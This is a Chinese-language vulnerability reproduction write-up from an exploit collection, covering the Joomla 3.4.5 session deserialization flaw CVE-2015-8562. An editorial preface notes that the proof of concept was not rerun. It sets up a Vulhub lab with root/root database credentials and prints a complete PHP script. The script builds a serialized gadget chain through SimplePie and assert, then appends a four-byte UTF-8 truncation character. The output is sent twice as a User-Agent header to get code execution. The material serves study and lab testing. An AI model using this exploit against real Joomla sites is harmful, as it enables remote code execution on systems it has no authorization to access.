



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：PHP5.6&lt;5.6.13/5.5&lt;5.5.29/5.4&lt;5.4.45；MySQL三字节utf8会话截断，同Cookie多请求

- **事实待核（1）**：版本与先建session再污染再触发步骤明确；标题仅3.4.5是测试版本不是全范围。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **代码与转录边界（2）**：保护属性替换/四字节尾字符需要保持原始字节，纯文本浏览复制易变；完整HTTP请求未转录。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **适用与权限边界（3）**：docker-compose命令未附Vulhub目录或commit，默认数据库口令只属测试环境。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Joomla 3.4.5 反序列化漏洞 CVE-2015-8562

## 漏洞描述

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

通过Joomla中的Gadget，可造成任意代码执行的结果。

详情可参考：

- https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

## 漏洞影响

```
Joomla 1.5.x, 2.x, and 3.x before 3.4.6
PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45
```

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080/`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库地址：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：



再用如下脚本生成POC：（[在线运行](http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```



将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：




---

> 来源：Threekiii/Awesome-POC
